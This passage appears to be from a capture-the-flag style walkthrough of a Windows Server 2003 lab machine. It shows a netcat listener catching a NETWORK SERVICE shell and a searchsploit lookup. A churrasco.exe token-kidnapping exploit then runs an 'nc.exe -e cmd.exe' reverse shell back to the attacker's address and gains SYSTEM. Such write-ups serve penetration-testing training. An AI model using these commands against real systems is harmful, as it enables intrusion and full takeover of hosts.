 On our listener, we get a shell as `NETWORK SERVICE`!

```bash
$ rlwrap nc -lvnp 1337                       
listening on [any] 1337 ...

connect to [10.10.XX.XX] from (UNKNOWN) [10.10.10.14] 1036
Microsoft Windows [Version 5.2.3790]
(C) Copyright 1985-2003 Microsoft Corp.

c:\windows\system32\inetsrv>
whoami
whoami
nt authority\network service
```

# Exploitation (2)

Running `systeminfo`, we see that it is running `Windows Server 2003`. Checking `searchsploit`, we see that there is a privilege escalation exploit we can use!

```bash
$ searchsploit windows server 2003 privilege Escalation
------------------------------------------------------------------------------------ ---------------------------------
 Exploit Title                                                                      |  Path
------------------------------------------------------------------------------------ ---------------------------------
Microsoft Windows Server 2000 - CreateFile API Named Pipe Privilege Escalation (1)  | windows/local/22882.c
Microsoft Windows Server 2000 - CreateFile API Named Pipe Privilege Escalation (2)  | windows/local/22883.c
Microsoft Windows Server 2003 - Token Kidnapping Local Privilege Escalation         | windows/local/6705.txt
```

We can get a binary called `churrasco.exe` from [here](https://github.com/Re4son/Churrasco/raw/master/churrasco.exe) which will take in a command and run it as `NT AUTHORITY/SYSTEM`. After transferring it and a `nc.exe`, over via `HTTP`, we can use it to run a reverse shell.

```
c:\windows\system32\inetsrv> C:\tmp\churrasco.exe "C:\\tmp\\nc.exe -e cmd.exe 10.10.XX.XX 1337"
```

Then on our listener that we set up beforehand, we get a shell as `SYSTEM`.

```bash
$ rlwrap nc -lvnp 1337
listening on [any] 1337 ...
connect to [10.10.XX.XX] from (UNKNOWN) [10.10.10.15] 1242
Microsoft Windows [Version 5.2.3790]
(C) Copyright 1985-2003 Microsoft Corp.

C:\WINDOWS\TEMP> whoami
whoami
nt authority\system
```

